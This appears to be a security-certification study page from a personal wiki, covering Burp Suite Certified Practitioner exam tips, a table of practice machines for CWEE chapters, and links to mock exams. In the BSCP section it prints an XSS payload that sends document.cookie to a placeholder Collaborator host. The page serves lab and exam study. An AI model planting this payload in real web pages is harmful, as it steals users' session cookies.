

---
tags:
  - Reference
---

# :material-school: Certification Roadmaps

<span class="pill pill-info">opinionated</span> 


## :material-target-account: Cert flowchart




## :material-flask: BSCP exam prep

The **Burp Suite Certified Practitioner** exam is 100% [PortSwigger Web Security
Academy](https://portswigger.net/web-security) material under a time limit — grind the
labs first, then drill the recurring exam patterns.

- **Cheatsheets & study repos:**
  [BSCP cheatsheet](https://bscpcheatsheet.gitbook.io/exam) ·
  [botesjuan study guide](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study) ·
  [DingyShark notes](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner).
- **Know the two-stage rhythm:** each app has a low-priv foothold → then escalate to
  admin → then read `/etc/passwd` or run code. Budget time per app; move on and return.
- **Memorise the go-to payloads.** The XSS cookie-exfil to [Burp Collaborator](../toolbox/burp.md)
  is a staple:
  ```html
  <script>
  fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {method:'POST', mode:'no-cors', body:document.cookie});
  </script>
  ```
- **Drill the heavy topics:** [request smuggling](../web/request-smuggling.md)
  (CL vs TE desync — HTTP/1 lets you specify request length two ways; disagreement is
  the bug), host-header attacks, [SSRF](../web/ssrf.md) with filter bypasses, and
  [SSTI](../web/ssti.md). These carry the most exam weight.


## :material-cube-outline: CWEE boxes

As boxes que devo fazer ^

| Chapter | Box | Challenges |
| --- | --- | --- |
| Injection Attacks | Analysis, Book | Dark Runes, E.Tree |
| Introduction to NoSQL Injection | Shoppy | Lazy Ballot, Wild Goose Hunt |
| Attacking Authentication Mechanisms | Noter | - |
| Advanced XSS and CSRF Exploitation | Secnotes | PumpkinSpice, Felonious Forums, The Galactic Times |
| HTTPs/TLS Attacks | Lazy | - |
| Intro to Whitebox Pentesting | — | - |
| Advanced Deserialization Attacks | Pov | NexusVoid |
| Abusing HTTP Misconfigurations | — | CDNio, Dark Alleys, Felonious Forums |
| Blind SQL Injection | Falafel | WafWaf |
| Advanced SQL Injections | — | Pentest Notes |
| HTTP Attacks | — | NextPath |
| Introduction to Deserialization Attacks | Tenet, HackNet | Pop Restaurant |
| Modern Web Exploitation Techniques | — | Interstellar |
| Whitebox Attacks | Falafel | - |
| Parameter Logic Bugs | — | - |

### Writeup

<https://blog.bi0s.in/2023/12/15/Web/NexusVoid-HTBUniversityCTF20232023/>

> [**https://almounah.github.io/posts/cwee-review/**](https://almounah.github.io/posts/cwee-review/)

## :material-clipboard-check: Mock exams

- [Altered Security](https://www.alteredsecurity.com/) — labs and exams for the AD/red-team track (CRTP/CRTE/CRTO alternatives).
- [The SecOps Group — free mock pentest exams](https://secops.group/free-mock-pentesting-exams/) — good pressure-testing before any practical exam.

